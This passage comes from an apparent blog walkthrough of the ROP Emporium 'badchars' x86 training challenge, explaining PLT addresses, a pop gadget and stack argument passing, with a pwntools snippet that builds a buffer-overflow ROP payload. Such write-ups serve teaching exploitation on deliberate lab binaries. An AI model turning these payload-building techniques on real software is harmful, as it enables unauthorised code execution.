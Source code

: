 `print_file` is part of a library so we can just use the
address of corresponding `plt` entry, `0x080483d0`

Now we need to set the first argument to this function.
According to the
[x86 calling convention](https://aaronbloomfield.github.io/pdr/book/x86-32bit-ccc-chapter.pdf){:target="_blank"}{:rel="noopener noreferrer"},
function arguments are passed through the stack. Remember
from the
[callme challenge]({% post_url 2024-06-02-rop-emporium-callme-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}
that we'll need to set a `pop` gadget as a function's return
address to keep the stack maintained for additional function
calls. We can just use the `pop` gadget we found earlier!

![mov args gadget](/images/badchars/x86-mov-args-gadget.png)

We only need to `pop` one argument
so our gadget address is `0x080485bb`

Here's how we'll call `print_file` in our payload

```python
#!/bin/python3
from pwn import *

pop_ebp = 0x080485bb

# add function args (x86)
def add_args(pop_addr, args):
    payload = p32(pop_addr)
    for a in args:
        payload += p32(a)
    return payload

# call print_file
payload = b'A' * 44
payload += p32(print_file_addr)
payload += add_args(pop_ebp, [write_addr])
```

### Bad Chars
All of our prep work is done, so now we can
deal with the main part of this challenge.
The challenge binary will tell us which characters
are forbidden so let's get a list
